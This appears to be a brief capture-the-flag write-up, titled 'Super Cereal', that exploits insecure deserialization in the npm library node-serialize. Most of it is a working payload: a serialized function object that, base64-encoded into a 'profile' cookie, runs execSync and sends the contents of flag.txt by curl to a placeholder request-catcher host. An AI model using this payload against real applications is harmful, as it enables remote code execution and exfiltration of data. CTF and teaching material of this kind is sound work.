 # Super Cereal
Exploit: Insecure Deserialization

The npm library `node-serialize` is insecure against deserialization attacks. With a deserialization bug, you can achieve RCE.

Encode this into B64:

```
{"cereal":"_$$ND_FUNC$$_function(){ process.mainModule.require('child_process').execSync('curl REQUESTCATCHERHERE --data \\\"$(cat flag.txt)\\\"'); }()"}
```

Then put the B64-ed value into your "profile" cookie on the cereal site. 